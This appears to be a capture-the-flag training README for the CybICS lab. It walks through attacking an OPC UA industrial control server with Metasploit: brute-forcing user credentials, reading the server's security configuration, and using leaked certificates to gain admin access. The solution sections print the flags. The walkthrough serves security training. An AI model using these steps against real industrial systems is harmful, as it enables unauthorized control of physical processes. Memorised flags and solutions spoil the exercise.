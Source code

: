 # OPC UA

An OPC UA client is a software application that connects to an OPC UA server to read, write, and monitor data within industrial systems.
This client can interact with various devices and systems, enabling seamless communication and data exchange across different platforms and manufacturers.
OPC UA clients are integral to industrial automation, as they facilitate real-time data access and control, which is essential for efficient and safe operations.

In this example, we aim to perform an attack on an OPC UA system.
To proceed, install the opcua-client, which we will use for interaction following a successful attack.

```sh
pip3 install opcua-client
```

Remove configuration file for the OpcUaClient if there is any:
```sh
rm -rf .config/FreeOpcUa/OpcUaClient.conf
```

Simple communication between OPC UA server and client:
```
+------------------+       OPC UA Protocol     +------------------+
|                  | <------------------------>|                  |
|  OPC UA Client   |                           |  OPC UA Server   |
|   opcua-client   |                           |      CybICS      |
+------------------+                           +------------------+
```

## Brute forcing user password
Brute forcing an OPC UA system involves repeatedly attempting to guess the username and password until the correct combination is found.
This type of attack can give an unauthorized user access to sensitive industrial control systems, allowing them to manipulate device settings, disrupt operations, or steal critical data.
Due to the automated nature of brute force attacks, they can quickly compromise systems that lack strong password policies or account lockout mechanisms.

One way to log in to the OPC UA Server from the OPC UA Client is to use a username and a password. The objective of this part of the training is to reveal a valid username with the corresponding password. To do this, try to crack a user's authentication password using a brute force attack. Use the Metasploit module for OPC UA:   
https://github.com/COMSYS/msf-opcua/tree/master

To set up of the scanner module, follow the *Instructions* in the README.md of the link. It's necessary to install the opcua-module via pip: `pip3 install opcua`. Metasploit is installed in Kali by default. Add the `modules` directory found in this repository to the `modules` directory of Metasploit. This is located under the path `~/.msf4/modules`.   

Then use *opcua_hello* to verify that an OPC UA Server is running on an open port by following step 2 of the *Typical Workflow* described.   
If this is successful, follow step 4 and use *opcua_login* to brute force credentials for OPC UA Server instances. As input credential the input file, *credentials.txt* located in this folder should be used.   
(hints: IP 10.0.0.1, PORT 4840, FILE CybICS/training/opcua/credentials.txt)

In the case of a successful brute force attack, you should see the username and password labeled *success* as output. This procedure can also be traced in Wireshark and the usernames and passwords used in the attack can be read out in plaintext. 


### Get the user flag
The flag has the format "CybICS(flag)".

**Hint**: The flag is readable on the OPC UA system of the user, which you need to brute force
<details>
  <summary><strong><span style="color:orange;font-weight: 900">Solution</span></strong></summary>

  Check if connection to OPC UA works with:
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_hello
  msf6 auxiliary(scanner/opcua/opcua_hello) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_hello) > set rport 4840
  msf6 auxiliary(scanner/opcua/opcua_hello) > run
  ```

  Expected outcome:
  ```
  [*] Running for 10.0.0.1...
  [+] 10.0.0.1:4840 - Success
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

  Use `opcua_login` to bruteforce login:
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_login
  msf6 auxiliary(scanner/opcua/opcua_login) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_login) > set port 4840
  msf6 auxiliary(scanner/opcua/opcua_login) > set userpass file:<CybICS_root_Folder>/CybICS/training/opcua/credentials.txt
  ```

  Expected outcome:
  ```
  [*] Running for 10.0.0.1...
  [*] 10.0.0.1:4840 - Valid OPC UA response, starting analysis
  ...
  [+] 10.0.0.1:4840 - [101/132] - user1:test - Success
  ...
  ```

  Username: user1
  Passwort: test
  
  :anger: Flag: CybICS(OPC-UA)
  ![Flag opcua](doc/opcua_user.png)
</details>

## Getting an overview of the security configuration
Use the metasploit module `auxiliary/scanner/opcua/opcua_server_config` for this investigation

<details>
  <summary><strong><span style="color:orange;font-weight: 900">Solution</span></strong></summary>
  
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_server_config
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set rport 4840
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set username user1
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set password test
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set authentication Username
  msf6 auxiliary(scanner/opcua/opcua_server_config) > run
  ```
</details>

## Getting admin access
Previously, you had read-only access to the variables, which meant you could view but not modify them.
The next step is to obtain admin access to the OPC UA device.
This will allow you to change the variables and acquire the admin flag.
From previous investigation, you found certificates used for the OPC-UA communication under `CybICS/software/opcua/certificates/trusted`.
Use the leaked certificates to authenticated to the OPC-UA system.

### Certificates in OPC UA

Certificates in OPC UA (Open Platform Communications Unified Architecture) are crucial for ensuring secure and trusted communication between clients and servers. OPC UA is designed with robust security features to protect data integrity, confidentiality, and authentication, and certificates play a key role in implementing these features.

#### Purpose of Certificates

- **Authentication**: Certificates authenticate the identities of OPC UA clients and servers. They verify that each party in a communication session is who they claim to be, helping to prevent unauthorized access and man-in-the-middle attacks.

- **Encryption**: Certificates enable encryption of data transmitted over OPC UA networks. This ensures that sensitive information is protected from eavesdropping and tampering by encrypting the communication channels between clients and servers.

- **Integrity**: Certificates help ensure data integrity by allowing both parties to validate that the data has not been altered during transmission. This is crucial for maintaining the reliability and accuracy of the information exchanged.

#### Types of Certificates

- **Application Instance Certificates**: These certificates are issued to individual OPC UA applications or devices. They help in uniquely identifying and authenticating each application instance within the OPC UA network.

- **Trust List Certificates**: OPC UA systems use trust lists to manage and verify certificates. Trust lists contain the certificates of trusted entities, such as clients and servers, and are used to establish trust relationships between them.

- **Self-Signed Certificates**: In some cases, OPC UA systems may use self-signed certificates. These are certificates signed by the entity itself rather than by a third-party certificate authority (CA). While self-signed certificates are useful for internal testing or development, they are typically less trusted than certificates issued by recognized CAs.

- **CA-Signed Certificates**: For more secure deployments, OPC UA systems often use certificates signed by a Certificate Authority (CA). CAs are trusted organizations that issue certificates after verifying the identities of the entities requesting them. CA-signed certificates are generally considered more reliable and secure.

#### Certificate Management

- **Issuance**: Certificates are issued either by a trusted CA or through internal mechanisms within an organization. The issuance process involves generating a certificate signing request (CSR), verifying the requester's identity, and issuing the certificate.

- **Revocation**: If a certificate is compromised or no longer needed, it should be revoked. Certificate revocation lists (CRLs) or online certificate status protocols (OCSP) are used to manage and communicate revoked certificates.

- **Renewal**: Certificates have expiration dates and need to be renewed periodically. Renewal ensures continued security and compliance with best practices.

- **Storage**: Certificates must be securely stored to prevent unauthorized access or tampering. OPC UA systems typically use secure storage mechanisms to protect certificates and their associated private keys.

#### Implementation in OPC UA

- **Security Policies**: OPC UA supports various security policies that define how certificates are used for encryption, signing, and authentication. These policies help tailor the security approach to meet specific requirements and use cases.

- **Key Pair Generation**: OPC UA applications generate and use asymmetric key pairs (public and private keys) in conjunction with certificates. The public key is included in the certificate, while the private key remains confidential.

- **Configuration**: OPC UA clients and servers must be properly configured to use certificates. This includes setting up trust lists, managing certificate expirations, and ensuring that all parties are using compatible security settings.

#### Summary

Certificates in OPC UA are essential for establishing secure, authenticated, and encrypted communication channels in industrial environments. They play a vital role in protecting data integrity, confidentiality, and authenticity. Effective management of certificates, including their issuance, storage, revocation, and renewal, is crucial for maintaining a secure OPC UA network and ensuring reliable operation of industrial control systems.

<details>
  <summary><strong><span style="color:orange;font-weight: 900">Solution</span></strong></summary>
  Use opcua-client and configure on `Connect option` the usage of the certificate.
  ```
  opcua-client
  ```

  Now you can change the variable `Set > 0 to obtain flag!` to a value bigger than zero and access the variable for the admin flag `adminFLAG`
  
  :anger: Flag: CybICS(OPC-UA-$ADMIN)
  ![Flag opcua](doc/opcua_admin.png)
</details>